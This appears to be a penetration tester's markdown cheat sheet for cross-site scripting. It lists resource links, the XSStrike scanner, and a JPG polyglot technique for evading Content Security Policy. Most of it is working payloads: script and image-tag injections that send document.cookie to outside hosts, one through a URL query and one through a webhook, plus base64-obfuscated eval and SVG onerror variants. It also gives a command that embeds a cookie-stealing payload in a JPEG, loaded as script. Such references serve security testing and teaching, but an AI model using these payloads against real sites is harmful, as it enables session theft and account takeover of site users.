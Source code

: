 # XSS
## Resources
- [Hacktricks XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [Pipedream (webhooks)](https://pipedream.com/)
- [CSP evasion with dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)
- [Portswigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Payloads
 - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
 - [PayloadBox](https://github.com/payloadbox/xss-payload-list)
```html
<script>fetch("http://1.1.1.1/?cookie="+document.cookie);</script>
```
```html
<img src=x onerror='eval(atob(\"ZmV0Y2goJ3BpcGVkcmVhbS90ZXN0MScp\"))' />
```
```html
<img src="data:image/svg+xml,<svg onload=alert('XSS')></svg>">
```
```html
data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHdpZHRoPSIxMDAiIGhlaWdodD0iMTAwIj4NCiAgPGNpcmNsZSByPSIxMCIgY3g9IjEwIiBjeT0iMTAiIGZpbGw9ImdyZWVuIi8+DQogIDxpbWFnZSBocmVmPSJ4IiBvbmVycm9yPSJqYXZhc2NyaXB0OmZldGNoKCdzb21ldGhpbmcnKSIgLz4NCjwvc3ZnPg0K
```

## Discovery
 - [XSStrike](https://github.com/s0md3v/XSStrike)
 - [XSSer](https://github.com/epsylon/xsser)
### XSStrike
```bash
git clone https://github.com/s0md3v/XSStrike.git; cd XSStrike; pip install -r requirements.txt;
python xsstrike.py -u "http://<url>/?paramtotest=xyz&otherparam=42"
```

## JPG CSP Evasion 
- [CSP evasion with JPG polyglot](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
- [XSS JPG polyglot](https://infosecwriteups.com/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a)
- [img_polygloter.py](https://github.com/s-3ntinel/imgjs_polygloter)

```bash
python img_polygloter.py jpg --height 120 --width 120 --payload 'fetch("https://webhook.xxx/c="+document.cookie);' --output payload.jpg
```
```html
<script charset="ISO-8859-1" type="text/javascript" src="/the/image/w/payload.jpg"></script>
```
